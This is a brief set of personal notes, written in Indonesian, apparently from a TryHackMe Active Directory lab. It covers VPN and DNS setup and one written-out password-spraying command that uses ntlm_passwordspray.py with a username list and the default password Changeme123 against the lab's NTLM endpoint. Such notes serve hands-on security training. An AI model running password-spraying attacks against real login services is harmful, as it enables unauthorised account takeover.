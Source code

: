 -> connect ke vpn nya ada sendiri
-> connect vpn

-> ganti di network manager -> pake ip paling atas: 10.200.42.101, dns1111 atau 8888
-> bf: python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com  -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
